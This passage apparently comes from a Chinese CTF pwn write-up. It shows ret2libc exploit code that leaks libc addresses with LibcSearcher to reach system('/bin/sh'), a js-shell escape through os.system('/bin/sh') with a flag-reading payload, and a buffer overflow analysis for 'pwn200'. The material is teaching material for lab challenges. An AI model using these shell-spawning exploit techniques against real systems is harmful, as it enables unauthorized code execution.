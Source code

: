 
接下来遇到retn，出栈一个元素为(pop_rdi)作为pop_24的返回地址，这样跳转到了pop_rdi，后面类似。我们调用system 获取到shell

使用libcSearcher：
```python
24.sh.recvuntil('\x40')
25.#泄露write地址
26.write_addr=u64(sh.recv(6).ljust(8,'\x00'))
27.
28.libc=LibcSearcher('write',write_addr)
29.#获取libc加载地址
30.libc_base=write_addr-libc.dump('write')
31.#获取system地址
32.system_addr=libc_base+libc.dump('system')
33.#获取/bin/sh地址
34.binsh_addr=libc_base+libc.dump('str_bin_sh')
```
## monkey
JavaScript shell 是一个命令行程序，它被包含在SpiderMonkey源代码中。它在JavaScript中类似于Python的交互式提示符。本题引入了js库，估计为js语言解释器

本题考察js shell

它的os.system()很有用
```
dudu@kali:~/桌面/learn/pwn/xctf/进阶/money$ ./js
js> ls
typein:1:1 ReferenceError: ls is not defined
Stack:
  @typein:1:1
js> os.system("/bin/sh")
$ ls
js  libnspr4.so  libplc4.so  libplds4.so
```

shellcode为：
```python
p.sendlineafter('js> ', 'os.system(\'cat flag\')')
```
## pwn200
缓冲区溢出：
```c
return read(0, &buf, 0x100u)
```
1、该题目静态反汇编：
```c
int __cdecl main()
{
  signed int v1; // [sp+2Ch] [bp-6Ch]@1
  signed int v2; // [sp+30h] [bp-68h]@1
  signed int v3; // [sp+34h] [bp-64h]@1
  signed int v4; // [sp+38h] [bp-60h]@1
  signed int v5; // [sp+3Ch] [bp-5Ch]@1
  signed int v6; // [sp+40h] [bp-58h]@1
  int v7; // [sp+44h] [bp-54h]@1

  v1 = 'cleW';      //Welc
  v2 = ' emo';      //ome
  v3 = 'X ot';      // to X
  v4 = 'FTCD';      //DCTF
  v5 = '5102';          //2015
  v6 = '\n!~';
  memset(&v7, 0, 0x4Cu);
  write(1, &v1, strlen((const char *)&v1));
  read(0, &buf, 0x100u);    //存在缓冲区溢出漏洞
  return 0;
```